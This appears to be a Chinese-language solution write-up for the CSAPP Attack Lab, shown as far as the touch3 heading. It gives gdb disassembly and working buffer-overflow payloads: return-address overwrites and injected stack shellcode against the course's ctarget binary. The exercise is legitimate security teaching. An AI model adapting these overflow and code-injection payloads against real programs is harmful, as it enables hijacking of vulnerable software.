 1. touch1()

ctarget的流程如下：

```c
void test()
{
    int val;
    val = getbuf();
    printf("No exploit. Getbuf returned 0x%x\n", val);
}
```

其中：

```c
unsigned getbuf()
{
    char buf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```

需要通过代码注入攻击使得 getbuf() 运行结束后返回到 touch1() 函数：

```C
void touch1() {
    vlevel = 1;
    printf("Touch!: You called touch1()\n");
    validate(1);
    exit(0);
}
```

利用`gdb` 调试`ctarget`找到我们需要的信息

```
gdb ctarget
```

首先反汇编test():

```
(gdb)  disas test
Dump of assembler code for function test:
   0x0000000000401968 <+0>:		sub    $0x8,%rsp
   0x000000000040196c <+4>:		mov    $0x0,%eax
   0x0000000000401971 <+9>:		callq  0x4017a8 <getbuf>
   0x0000000000401976 <+14>:	mov    %eax,%edx
   0x0000000000401978 <+16>:	mov    $0x403188,%esi
   0x000000000040197d <+21>:	mov    $0x1,%edi
   0x0000000000401982 <+26>:	mov    $0x0,%eax
   0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
   0x000000000040198c <+36>:	add    $0x8,%rsp
   0x0000000000401990 <+40>:	retq  
```

然后反汇编getbuf():

```
(gdb) > disas getbuf
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    retq
```

也就是说，当getbuf函数运行到retq这个语句时，应该让它返回至touch1()的地址，首先理解retq这个语句的含义：

![image-20210506213903895](/home/lalawang/.config/Typora/typora-user-images/image-20210506213903895.png)

函数在跳转前会将返回的地址压到栈顶，返回前会先将栈顶保存的地址弹出再跳转。因此，找到getbuf()函数存放返回地址的栈上的那个内存单元改变里面的值即可。



在getbuf的首句打上断点并运行：

```
(gdb) b *0x4017a8
Breakpoint 1 at 0x4017a8: file buf.c, line 12.

(gdb) run -q
Starting program: /mnt/projects/CSAPP-Assignments/my-solution/3-Attack-Lab/target1/ctarget -q
Cookie: 0x59b997fa

Breakpoint 1, getbuf () at buf.c:12
12	buf.c: No such file or directory.
(gdb) disas
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:		sub    $0x28,%rsp
   0x00000000004017ac <+4>:		mov    %rsp,%rdi
   0x00000000004017af <+7>:		callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
End of assembler dump.
```

此时执行到 ==> 处， 此时查看rsp指向内存所存储的值：

```
(gdb) print /x *(int*) $rsp
$1 = 0x401976
```

而0x401976是test()函数中执行完getbuf()下一个语句的地址，因此通过代码注入将这个位置的内容改成touch1()的地址。



从第一行`sub $0x28, %rsp`中显示，在栈上为`buf`提供了0x28也就是40个字节的空间,反汇编`touch1`函数，找到`touch1`函数的起始地址:

```
(gdb)> disas touch1
   0x00000000004017c0 <+0>:     sub    $0x8,%rsp
   0x00000000004017c4 <+4>:     movl   $0x1,0x202d0e(%rip)
   0x00000000004017ce <+14>:    mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:    callq  0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:    mov    $0x1,%edi
   0x00000000004017dd <+29>:    callq  0x401c8d <validate>
   0x00000000004017e2 <+34>:    mov    $0x0,%edi
   0x00000000004017e7 <+39>:    callq  0x400e40 <exit@plt>
```

从第一行中看出，`touch1`的返回地址是`0x00000000004017c0`

输入字符，首先填充栈，可以使用任意字符，这里我使用的是16进制的0x00填充，然后填充`touch1`地址，最后得到是如下结果：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

大部分电脑应该都是`little-endian`字节序，即低位在低地址，高位在高地址。

![image-20210507101128729](/home/lalawang/.config/Typora/typora-user-images/image-20210507101128729.png)

```
> ./hex2raw -i solutions/level1.txt | ./ctarget -q
```

![image-20210506212326205](/home/lalawang/.config/Typora/typora-user-images/image-20210506212326205.png)



2. touch2()

touch2()地址：0x00000000004017ec

```
(gdb) disas touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:		sub    $0x8,%rsp
   0x00000000004017f0 <+4>:		mov    %edi,%edx
   0x00000000004017f2 <+6>:		movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:	cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:	mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:	mov    $0x1,%edi
   0x000000000040180e <+34>:	mov    $0x0,%eax
   0x0000000000401813 <+39>:	callq  0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:	mov    $0x2,%edi
   0x000000000040181d <+49>:	callq  0x401c8d <validate>
   0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:	mov    $0x403110,%esi
   0x0000000000401829 <+61>:	mov    $0x1,%edi
   0x000000000040182e <+66>:	mov    $0x0,%eax
   0x0000000000401833 <+71>:	callq  0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:	mov    $0x2,%edi
   0x000000000040183d <+81>:	callq  0x401d4f <fail>
   0x0000000000401842 <+86>:	mov    $0x0,%edi
   0x0000000000401847 <+91>:	callq  0x400e40 <exit@plt>
End of assembler dump.
```

为了完成让getbuf()执行结束后跳转至touch2()，并且传递相应参数。那么在ret跳转至touch2()之前，需要将参数寄存器%rdi中存储的内容改成cookie字符串，而这需要若干汇编指令来实现，也就是说，我们需要让getbuf()的retq跳到自己写的代码指令中去，再让自己的代码跳回touch2()里：

首先确定自己需要注入的代码， vim task2code.s：

```
pushq $0x59b997fa   
pop %rdi
push $0x4017ec
retq
```

其中，0x59b997fa是实验的cookie，压入栈上后pop至%rdi寄存器，0x4017ec是touch2()函数的地址，压入栈顶，retq会先将栈顶元素弹出至%rip寄存器后然后执行。

对这一段代码汇编后objdump查看机器指令：

```
➜  vim task2code.s
➜  target1 git:(master) ✗ gcc -c task2code.s 
➜  objdump -d task2code.o > task2code.d
cat task2code.d

task2code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 fa 97 b9 59       	pushq  $0x59b997fa
   5:	5f                   	pop    %rdi
   6:	68 ec 17 40 00       	pushq  $0x4017ec
   b:	c3                   	retq 
```

可以得到这一段汇编代码对应的机器指令序列为：

```
68 fa 97 b9 59 5f 68 ec 17 40 00 c3
```

那么接下来就只需要思考将这段代码放在哪里：

在getbuf中运行期间，栈结构如下图所示：

![image-20210507114020706](/home/lalawang/.config/Typora/typora-user-images/image-20210507114020706.png)

上图中，我们把自己注入的代码放到0x5561dc78中，那么在0x5561dca0处所存储的指就是0x5561dc78，这样getbuf()中retq语句执行后，我们自己的代码指令会被加载进%rip中开始执行，因此输入的字符串：

```
68 fa 97 b9 59 5f 68 ec
17 40 00 c3 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

或者（将自己的机器指令放到0x5561dca0的更高位地址也可）：

```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
a8 dc 61 55 00 00 00 00
68 fa 97 b9 59 5f 68 ec
17 40 00 c3 00 00 00 00
```

3. touch3()